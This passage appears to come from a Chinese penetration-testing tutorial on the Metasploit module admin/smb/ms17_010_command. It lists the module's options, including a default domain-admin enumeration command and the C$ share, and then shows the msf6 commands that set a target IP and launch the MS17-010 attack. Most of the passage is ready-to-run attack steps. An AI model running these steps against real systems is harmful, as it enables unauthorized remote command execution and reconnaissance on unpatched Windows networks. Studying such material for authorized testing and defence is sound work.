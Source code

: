 *   RHOSTS，远程目标IP-默认为空，需设置
*   RPORT，远程SMB共享端口-默认445
*   COMMAND，执行的验证命令-默认为 `net group "Domain Admins" /domain`
*   SERVICE\_NAME，服务名-默认随机8位字母字符串
*   SERVICE\_DISPLAY\_NAME，服务展示名-默认随机16位字母字符串
*   SERVICE\_DESCRIPTION，服务描述-默认为空
*   SMBUser、SMBPass，SMB认证用户名/密码，默认为空-采用匿名访问
*   SMBSHARE，目标共享-默认为 `C$`

[![](assets/1701606737-9d878476b10af9c80eb7a0bc04172d55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106233331-d7371bbe-7cb9-1.png)

设置远程目标IP

```plain
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.1.9
```

攻击

```plain
msf6 auxiliary(admin/smb/ms17_010_command) > run
or
msf6 auxiliary(admin/smb/ms17_010_command) > exploit
```

[![](assets/1701606737-ab59243913101e2647416bff0d38d059.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106233404-eacb088e-7cb9-1.png)
